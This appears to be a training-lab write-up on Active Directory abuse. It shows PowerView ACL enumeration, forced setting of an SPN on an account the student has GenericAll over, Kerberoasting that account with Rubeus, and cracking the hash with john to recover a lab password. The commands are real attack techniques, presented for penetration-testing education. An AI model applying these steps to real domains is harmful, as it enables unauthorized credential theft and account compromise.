 # Hands-on 7: SetSPN

- [Hands-on 7: SetSPN](#hands-on-7-setspn)
  - [Task](#task)
  - [Determine if studentuserx has permissions to set UserAccountControl flags for any user](#determine-if-studentuserx-has-permissions-to-set-useraccountcontrol-flags-for-any-user)
  - [If yes, force set a SPN on the user and obtain a TGS for the user.](#if-yes-force-set-a-spn-on-the-user-and-obtain-a-tgs-for-the-user)

---

## Task

- Determine if studentuserx has permissions to set UserAccountControl flags for any user.
- If yes, force set a SPN on the user and obtain a TGS for the user.

<br/>

---

## Determine if studentuserx has permissions to set UserAccountControl flags for any user

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{ ($_.IdentityReferenceName -match "manager") -or ($_.IdentityReferenceName -match "studentusers") -or ($_.IdentityReferenceName -match "maintenanceusers") }
```

Recalling the above command result in Hands-on 5, the interesting ACL:

```
ObjectDN                : CN=Support64User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group
```

<br/>

Since `studentuser64` is in the `studentusers` group, it has `GenericAll` permission on the support user - it can set `UserAccountControl` flags for the user `support64user`.

<br/>

---

## If yes, force set a SPN on the user and obtain a TGS for the user.

```
Set-DomainObject -Identity support64user -Set @{serviceprincipalname='us/myspn64'}
```

![picture 5](images/48be9ef095810b3793c784b9f0f0a4869943a3a3e0a4e3b753c0f7f4c5a18459.png)  

<br/>

Inspect the SPN again:

![picture 6](images/5813357c7dc9f0cdb73099e10c73b9d3a16d0e89b391499e029b519f54aa2226.png)  

* `Support64User` has the SPN `us/myspn64` now.

<br/>

Request TGS using `Rubeus.exe`:

```
.\Rubeus.exe kerberoast /user:support64user /outfile:kerberoast-support64user-hash.txt
```

![picture 7](images/00e77b16cb99336ab35e23e12a73e21e64b99ef6f13b9586f61baa164ec3c83a.png)  

<br/>

Use `john.exe` to crack the password:

![picture 8](images/1fa429f9142a9b0f23032c0d0bd7fede2321b7a4948b9e8bb0c954a3976582c8.png)  

- The password of `support64user` is `Desk@123`

<br/>

---